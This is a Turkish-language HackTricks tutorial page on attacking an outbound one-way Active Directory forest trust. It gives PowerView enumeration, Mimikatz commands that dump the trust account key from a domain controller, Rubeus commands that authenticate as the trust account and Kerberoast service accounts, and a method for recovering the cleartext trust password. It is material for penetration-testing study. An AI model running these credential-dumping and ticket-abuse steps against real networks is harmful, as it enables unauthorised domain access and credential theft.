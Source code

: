 # External Forest Domain - One-Way (Outbound)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

Bu senaryoda **domaininiz** bazı **yetkileri** **farklı domainlerden** bir **prensipe** **güvenmektedir**.

## Enumeration

### Outbound Trust
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## Trust Account Attack

İki alan arasında bir güven ilişkisi kurulduğunda, burada alan **A** ve alan **B** olarak tanımlanan, alan **B**'nin alan **A**'ya güvenini genişlettiği durumlarda bir güvenlik açığı vardır. Bu yapılandırmada, alan **B** için alan **A**'da özel bir hesap oluşturulur; bu hesap, iki alan arasındaki kimlik doğrulama sürecinde kritik bir rol oynar. Alan **B** ile ilişkilendirilen bu hesap, alanlar arasında hizmetlere erişim için biletleri şifrelemek amacıyla kullanılır.

Burada anlaşılması gereken kritik nokta, bu özel hesabın şifresinin ve hash'inin alan **A**'daki bir Alan Denetleyicisinden bir komut satırı aracı kullanılarak çıkarılabileceğidir. Bu işlemi gerçekleştirmek için kullanılan komut şudur:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
Bu çıkarım, adının ardından bir **$** ile tanımlanan hesabın aktif olması ve **A** alanının "Domain Users" grubuna ait olması nedeniyle mümkündür; böylece bu grubun ilişkili izinlerini miras alır. Bu, bireylerin bu hesabın kimlik bilgilerini kullanarak **A** alanına kimlik doğrulaması yapmalarını sağlar.

**Uyarı:** Bu durumu, sınırlı izinlerle de olsa bir kullanıcı olarak **A** alanında bir yer edinmek için kullanmak mümkündür. Ancak, bu erişim **A** alanında numaralandırma yapmak için yeterlidir.

`ext.local` güvenen alan ve `root.local` güvenilen alan olduğunda, `root.local` içinde `EXT$` adında bir kullanıcı hesabı oluşturulacaktır. Belirli araçlar aracılığıyla, Kerberos güven anahtarlarını dökerek `root.local` içindeki `EXT$` kimlik bilgilerini açığa çıkarmak mümkündür. Bunu başarmak için kullanılan komut şudur:
```bash
lsadump::trust /patch
```
Bunun ardından, çıkarılan RC4 anahtarını kullanarak `root.local` içinde `root.local\EXT$` olarak kimlik doğrulamak için başka bir araç komutu kullanılabilir:
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
Bu kimlik doğrulama adımı, `root.local` içindeki hizmetleri listeleme ve hatta istismar etme olasılığını açar; örneğin, hizmet hesap kimlik bilgilerini çıkarmak için bir Kerberoast saldırısı gerçekleştirmek:
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### Açık metin güven ilişkisi parolasını toplama

Önceki akışta, **açık metin parolası** yerine güven ilişkisi hash'i kullanıldı (bu da **mimikatz tarafından döküldü**).

Açık metin parolası, mimikatz'tan alınan \[ CLEAR ] çıktısını onaltılıdan dönüştürerek ve null byte'ları ‘\x00’ kaldırarak elde edilebilir:

![](<../../.gitbook/assets/image (938).png>)

Bazen bir güven ilişkisi oluşturulurken, kullanıcı tarafından güven için bir parola girilmesi gerekir. Bu gösterimde, anahtar orijinal güven ilişkisi parolasıdır ve dolayısıyla insan tarafından okunabilir. Anahtar döngüye girdiğinde (30 gün), açık metin insan tarafından okunabilir olmayacak ama teknik olarak yine de kullanılabilir.

Açık metin parolası, güven hesabı olarak normal kimlik doğrulama gerçekleştirmek için kullanılabilir; bu, güven hesabının Kerberos gizli anahtarını kullanarak bir TGT talep etmenin bir alternatifidir. Burada, ext.local'dan root.local'a Domain Admins üyeleri için sorgulama yapılmaktadır:

![](<../../.gitbook/assets/image (792).png>)

## Referanslar

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
